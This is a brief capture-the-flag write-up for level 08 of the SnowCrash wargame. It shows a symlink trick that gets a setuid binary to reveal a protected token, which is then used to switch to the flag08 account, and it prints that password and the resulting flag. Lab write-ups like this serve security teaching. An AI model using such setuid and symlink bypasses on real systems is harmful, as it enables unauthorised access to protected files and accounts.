 # Flag 08
- ll
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
-rw-------  1 flag08  flag08    26 Mar  5  2016 token


- cat / strings / ltrace -> no


level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/aa
level08@SnowCrash:~$ ./level08 /tmp/aa
quif5eloekouj29ke0vouxean

level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !


Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f






